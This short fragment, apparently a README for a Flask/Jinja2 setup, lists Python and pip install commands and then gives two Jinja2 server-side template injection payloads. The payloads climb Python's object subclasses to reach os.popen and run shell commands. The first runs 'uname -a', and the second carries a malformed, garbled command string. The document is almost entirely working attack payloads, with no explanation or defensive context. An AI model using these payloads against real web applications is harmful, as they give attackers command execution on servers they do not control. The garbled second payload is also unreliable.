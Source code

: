Requirements:

apt-get install python

apt-get install python-pip

pip install flask

pip install jinja2

{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("uname -a").read().zfill(417)}}{%endif%}{% endfor %}

{% for x in ().__class__.__base__.__subclasses__() %}
  {% if "warning" in x.__name__ %}
    {{x()._module.__builtins__['__import__']('os').popen(""]);'").read().zfill(417)}}
  {%endif%}
{%endfor%}
